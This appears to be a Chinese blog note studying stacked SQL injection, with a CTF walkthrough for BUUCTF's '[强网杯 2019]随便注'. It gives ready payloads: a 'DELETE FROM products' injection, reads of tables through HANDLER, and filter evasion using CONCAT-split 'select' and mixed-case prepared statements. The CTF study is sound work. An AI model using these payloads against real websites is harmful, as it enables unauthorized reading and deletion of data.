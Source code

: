 ```yaml
---
title: 堆叠注入
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 注入
    - SQL
description: sql注入--堆叠注入
abbrlink: 5c5063b6
tags:
---
```


# 堆叠注入

当```select```被过滤时候可以考虑是否存在堆叠注入
堆叠注入是利用```;```来执行多条sql语句
比如说类似```select * from users where id=1;select 1,2,3;```这样的语句

堆叠注入可以执行的是任意的语句。

例如用户输入：
```sql
1; DELETE FROM products
```
若未对输入的参数进行过滤，服务器端生成的sql语句可能为： 
```sql
select * from products where productid=1;DELETE FROM products
```
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

> 堆叠注入和union injection（联合注入）区别：
union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句

## 常用函数和方法
### show函数

> 查询数据库
```sql
show databases
```
> 查询表名
```sql
show tables
```
> 查询字段（从words表查询字段）
```sql
show columns from words
```
> 从表里面查这个columns，要用反引号
```sql
show columns from `1919810931114514`;
```
### 使用handler函数

>mysql可以使用select查询表中的数据，也可使用handler语句，这条语句是一行一行的浏览一个表中的数据。
handler可以用于MyISAM和InnoDB表。

使用方法：
>handler table_name open打开一张表
handler table_name read first读取第一行内容，
handler table_name read next依次获取其它行
最后一行执行之后再执行handel table_name read next会返回一个空的结果。

示例：
```sql
?a=-1';handler `1919810931114514` open;handler `1919810931114514` read first;#
```

### 使用预编译绕过

> set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句

示例：
```sql
-1';set @sql = CONCAT('sele','ct * from `1919810931114514`;');prepare aaa from @sql;EXECUTE aaa;#
```

当set和prepare被过滤时可以考虑大小写绕过
```sql
1';sEt @sql = CONCAT('sele','ct * from `1919810931114514`;');prepArE aaa from @sql;EXECUTE aaa;#
```

参考来源：https://blog.csdn.net/nicesa/article/details/106390405

## 例题

> 来自buuctf上面的[强网杯 2019]随便注

发现select、update、delete、drop、insert、where基本上都被过滤了

payload：

库名
```sql
?inject=-1';show databases;%23
```
表名
```sql
?inject=-1';show tables;%23
```
字段名
```sql
?inject=-1';show columns from `1919810931114514`;%23
```
获得内容
```sql
?inject=-1';handler `1919810931114514` open;handler `1919810931114514` read first;%23
```
或者
```sql
?inject=-1';sEt @sql = CONCAT('sele','ct * from `1919810931114514`;');prepArE aaa from @sql;EXECUTE aaa;%23
```



